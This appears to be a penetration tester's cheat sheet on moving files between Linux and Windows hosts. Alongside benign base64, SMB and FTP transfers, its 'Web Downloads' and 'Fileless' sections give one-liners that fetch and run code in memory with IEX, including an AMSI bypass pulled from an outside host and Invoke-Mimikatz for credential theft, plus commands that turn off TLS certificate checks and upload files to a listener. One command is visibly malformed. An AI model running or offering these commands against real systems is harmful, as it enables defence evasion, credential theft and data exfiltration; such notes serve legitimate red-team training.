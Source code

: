 ## PowerShell
### Copying Using Base64 From from Linux to Windows

Verify the MD5 hash of the target file:

```bash
garffff@garffff:~/test$ more hello.py 
print("hello world!")
garffff@garffff:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

Base64 the target file :

```bash
garffff@garffff:~/test$ cat hello.py |base64 -w 0;echo
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

In PowerShell, echo the base64 output to a location:

```bash
PS C:\users\public\downloads> [IO.File]::WriteAllBytes("C:\Users\Public\hello.py", [Convert]::FromBase64String("cHJpbnQoImhlbGxvIHdvcmxkISIp"))
```

Verify MD5 of target file:

```bash
PS C:\users\public\downloads> Get-FileHash C:\Users\Public\hello.py -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             01C0A257EDD3C2E95C25D80A4C18C5CC                                 
```

### Copying Using Base64 From from Windows to Linux

```bash
PS C:\users\public\downloads> [Convert]::ToBase64String((Get-Content -path "C:\users\public\hello.py" -Encoding byte))
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

Verify MD5 hash:

```bash
PS C:\users\public\downloads> Get-FileHash "C:\users\public\hello.py" -Algorithm MD5 | select Hash

Hash
----
01C0A257EDD3C2E95C25D80A4C18C5CC
```

On Linux system:

```bash
echo 'cHJpbnQoImhlbGxvIHdvcmxkISIp' | base64 -d > hello.py
```

Verify hash:

```bash
garffff@garffff:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

### Web Downloads

Malicious files can be detected by Defender:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\users\public\downloads> wget 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_wget.ps1
PS C:\users\public\downloads> curl 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_curl.ps1
```

Using Invoke-WebRequest is a slower method, this can launch IE when first launched:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

To prevent IE from loading use the following:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1/PowerView.ps1 -UseBasicParsing {| IEX}
```

When SSL/TLS certificate are not trusted (not tested):

```bash
PS C:\users\public\downloads> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```
### Web Downloads - Fileless (memory)

Need to bypass AMSI to load Malicious files into memory:

```bash
PS C:\users\public\downloads> (New-Object System.Net.WebClient).DownloadString('http://192.168.0.51/amsi.txt') | IEX
```

Then load into memory:

```bash
PS C:\users\public\downloads> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Web Uploads

Create a uploads webserver:

```bash
garffff@garffff:~/test$ pip3 install uploadserver
garffff@garffff:~/test$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Upload file from Windows:

```bash
PS C:\Users\Public\Downloads> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\Users\Public\Downloads> Invoke-FileUpload -Uri http://192.168.0.51:8000/upload -File C:\users\public\downloads\hello.py

[+] File Uploaded:  C:\users\public\downloads\hello.py
[+] FileHash:  01C0A257EDD3C2E95C25D80A4C18C5CC
```

### Web Uploads Using Base64

```bash
PS C:\Users\Public\Downloads> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\users\public\downloads\hello.py' -Encoding Byte))
```

Create a NC listener:

```bash
garffff@garffff:~/test$ sudo nc -lvp 8000
```

Send Base64 encoded file:

```
PS C:\Users\Public\Downloads> Invoke-WebRequest -Uri http://192.168.0.51/ -Method POST -Body $b64
```

Results:

```bash
garffff@garffff:~/test$ sudo nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 192.168.0.75 1979
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-GB) WindowsPowerShell/5.1.19041.4894
Content-Type: application/x-www-form-urlencoded
Host: 192.168.0.51
Content-Length: 28
Connection: Keep-Alive

cHJpbnQoImhlbGxvIHdvcmxkISIp
```
## SMB

Create SMB server:

```bash
garffff@garffff:~/test$ sudo smbserver.py share /tmp -smb2support 
Impacket for Exegol - v0.10.1.dev1+20231106.134307.9aa93730 - Copyright 2022 Fortra - forked by ThePorgs

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Copying to Windows:

```bash
c:\Users\Public\Downloads>copy \\192.168.0.51\share\hello.py
        1 file(s) copied.
```

Using a username and password:

```bash
c:\Users\Public\Downloads> net use x: \\192.168.220.133\share /user:garffff password
c:\Users\Public\Downloads> copy x:\hello.py
```

## FTP - Download

Create FTP server:

```bash
garffff@garffff:~/test$ sudo pip3 install pyftpdlib
garffff@garffff:~/test$ sudo python3 -m pyftpdlib --port 21
[I 2024-09-29 14:49:52] concurrency model: async
[I 2024-09-29 14:49:52] masquerade (NAT) address: None
[I 2024-09-29 14:49:52] passive ports: None
[I 2024-09-29 14:49:52] >>> starting FTP server on 0.0.0.0:21, pid=47842 <<<
```

Copy file:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('ftp://192.168.0.51/hello.py', 'C:\Users\Public\downloads\hello.py')
```

### FTP - Upload

Create writable FTP server

```bash
garffff@garffff:~/test$ sudo python3 -m pyftpdlib --port 21 --write
[sudo] password for garffff:            
/usr/local/lib/python3.10/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2024-09-29 15:06:15] concurrency model: async
[I 2024-09-29 15:06:15] masquerade (NAT) address: None
[I 2024-09-29 15:06:15] passive ports: None
[I 2024-09-29 15:06:15] >>> starting FTP server on 0.0.0.0:21, pid=52705 <<<
```

Upload file from Windows:

```bash
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.0.51/hello.py', 'c:\users\public\downloads\hello.py')
```
